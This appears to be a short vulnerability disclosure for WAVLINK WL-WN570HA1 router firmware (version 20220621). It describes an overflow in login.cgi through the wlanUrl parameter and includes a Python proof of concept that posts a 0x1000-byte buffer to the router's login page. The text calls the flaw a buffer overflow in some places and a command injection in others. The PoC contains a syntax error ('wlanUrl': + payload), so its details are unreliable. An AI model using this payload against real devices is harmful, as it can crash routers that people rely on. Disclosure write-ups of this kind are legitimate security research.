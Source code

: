 # buff overflow

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a command injection in login.cgi/Goto_chidx

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:


![](8.png)

get value from wlanUrl

and call sprintf, cause buff overflow

## POC
```
url = "http://192.168.0.1/cgi-bin/login.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'Goto_chidx', 'wlanUrl': + payload})
``` 
